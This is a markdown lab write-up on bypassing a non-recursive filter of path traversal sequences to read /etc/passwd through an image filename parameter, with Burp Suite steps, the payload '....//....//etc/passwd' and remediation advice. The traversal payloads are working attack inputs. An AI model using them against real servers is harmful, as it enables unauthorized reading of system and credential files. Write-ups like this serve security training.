 ## 🧪 Lab: File Path Traversal - Traversal Sequences Stripped Non-Recursively  
**Level**: Practitioner  
**Date**: June 13, 2025  
**Goal**: Read `/etc/passwd` despite sanitization removing path traversal sequences.

---

### 🧰 Tools
- Burp Suite (Repeater / Interceptor)

---

### 🧭 Steps

1. **Intercept product image URL**  
   - Navigate to the product page and intercept the image request:
     ```
     GET /image?filename=218.png
     ```

2. **Send to Repeater**

3. **Try standard absolute path payload**  
   - Test with:
     ```
     filename=/etc/passwd
     ```

4. **Try basic traversal sequence**  
   - Use:
     ```
     filename=../../../etc/passwd
     ```
   - Fails due to sanitization that removes `../` sequences.

5. **Bypass using recursive traversal payload**  
   - Inject the following:
     ```
     filename=....//....//....//....//etc/passwd
     ```
   - The application strips one `./` from each segment (`../`), resulting in:
     ```
     ../../../../etc/passwd
     ```
   - Successfully retrieves the contents of `/etc/passwd`.

---

### 💣 Payload
```
....//....//....//....//etc/passwd
```

---

### 🔒 Remediation
- Sanitize and validate all user-supplied file paths.
- Normalize paths before processing to collapse sequences.
- Implement allow-lists for filenames.
- Restrict file access to secure directories only.
